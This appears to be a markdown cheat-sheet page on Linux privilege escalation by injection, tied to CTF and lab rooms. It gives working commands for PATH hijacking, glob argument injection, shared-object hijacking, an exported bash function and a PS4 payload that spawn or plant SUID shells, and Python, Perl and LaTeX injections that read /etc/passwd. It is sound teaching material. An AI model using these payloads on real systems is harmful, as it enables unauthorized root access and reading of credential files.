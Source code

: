 # Injection

<div class="row row-cols-lg-2"><div>

If there is some code that can is executed as another user, for instance, a [scheduled task](tasks.md) or a [program with the SUID bit](perms.md#suidguid-bit), you may be able to modify the code behavior using injection.

➡️ You may need/want to create a [root bash](rootbash.md).
</div><div>

There are basic scenarios in which you can directly exploit the executable, but in other scenarios, you may have to exploit the environment itself. In short, it means you may:

* 🌸 edit the environment variables
* 🌿 edit the files used by the program
* 🎭 create a file named after the parameters of the command. For instance, if the code uses a glob-pattern, the pattern will be replaced with the matching files. So, you may inject parameters.
* 🐦 use a flaw in the script language
* ...
</div></div>

<hr class="sep-both">

## Path Environment variable 🌸

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![mustacchio](../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![bash_system_1](../../../_badges/rootme/app_script/bash_system_1.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
[![bash_system_2](../../../_badges/rootme/app_script/bash_system_2.svg)](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)

<div class="row row-cols-lg-2"><div>

If you can run a script, you may try to see if the script uses your PATH to work. The easiest way to test that is to empty your PATH.

```shell!
$ bash -c 'export PATH=; <execute the script>'
"xxx" command not found ====> OK!
```

You can then try to replace the command binary by a [rootbash](rootbash.md). 

```
$ ls /tmp/rootbash # assuming you created your rootbash
$ ln -s /tmp/rootbash # replace the command "xxx"
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```

⚠️ If you are not able to edit the PATH, try to see if you can write files in a folder in the PATH that is before the original folder.
</div><div>

Unfortunately, this doesn't work when the command is invoked with some options, such as `tail -f /var/log/nginx/access.log`.

The trick is to create a script that launches our command. Refer to [Root Bash Script](rootbash.md).

```shell!
$ ln -s /tmp/root.sh /tmp/xxx # your command
$ bash -c 'export PATH=/tmp:$PATH; <execute the script>'
<your bash is called>
```
</div></div>

<hr class="sep-both">

## Parameters injection  🎭

[![linuxstrengthtraining](../../../_badges/thm/linuxstrengthtraining.svg)](https://tryhackme.com/room/linuxstrengthtraining)
[![linuxprivilegeescalation](../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

We can inject arguments when [glob-patterns](/operating-systems/linux/_knowledge/index.md#glob-patterns) are replaced, e.g., by creating file named after the command arguments.

To execute any command manipulating a filename starting with `-`, you need to use `--` such as `rm -- -la` to remove the file `-la`.
</div><div>

For instance, to inject `-la` into `ls *`:

```shell!
$ touch -- -la
$ ls
-la
$ ls * # * was replaced by -la
total 8
drwxr-xr-x 2 xxx xxx 4096 Apr 29 18:50 .
drwxr-xr-x 9 xxx xxx 4096 Apr 29 18:50 ..
-rw-r--r-- 1 xxx xxx    0 Apr 29 18:50 -la
```

</div></div>

<hr class="sep-both">

## Shared Object Hijacking

[![linuxprivilegeescalation](../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

<div class="row row-cols-lg-2"><div>

Shared Object Hijacking or Linker Hijacking is a technique in which we load a malicious `.so` file when executing a binary such as `ls` in a misconfigured environment.

For instance, we may have write access to a folder such as `/lib` or `/usr/lib` which are used by default when linking an executable. It's also possible that `/etc/ld.so.conf` was misconfigured.

If we found a suspicious binary, we can examine it:

```ps
$ ldd <binary>
$ readelf -d <binary>
```
</div><div>

If the binary has the `RUNPATH` folder set, then, if we can write `.so` to this folder, we can compromise it.

To write a static binary, [refer to LD_PRELOAD](sudo.md#ld_preload).
</div></div>

<hr class="sep-both">

## Bash scripts failures 🐦

<div class="row row-cols-lg-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allows us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash!
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```shell!
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>

<hr class="sep-both">

## Special scenarios 📚

<div class="row row-cols-lg-2"><div>

#### Python input() function

[![python_input](../../../_badges/rootme/app_script/python_input.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-input)

This command is used to prompt the user for input. The problem is that we can write python code <small>(e.g., 5+5)</small>.

```py
open('/tmp/passwd_dump', 'w').write(open('/etc/passwd', 'r').read())
```

#### Perl open() 

[![perl_command_injection](../../../_badges/rootme/app_script/perl_command_injection.svg)](https://www.root-me.org/en/Challenges/App-Script/Perl-Command-injection)

The open function is perl can execute commands when we use `|` in the filename. For instance, `| cat /etc/passwd`. The code is not vulnerable if there is a `<` before our filename in the `open` function call.
</div><div>

#### Latex directives

[![latex_input](../../../_badges/rootme/app_script/latex_input.svg)](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Input)

If we can compile LaTeX, we may be able to 

* Execute commands
* Read non-LaTeX files using `\input{path_to_file}` or using `\usepackage{verbatim} \verbatiminput{myfile.txt}` (comments)

#### Bash Script Arguments

[![bash_unquoted](../../../_badges/rootme/app_script/bash_unquoted.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-unquoted-expression-injection)

If the script uses the argument without quoting them nor validating them, we may be able to inject parameters.

```
$ cat xxx.sh
ls $1
$ ./xxx.sh "-la ."
```
</div></div>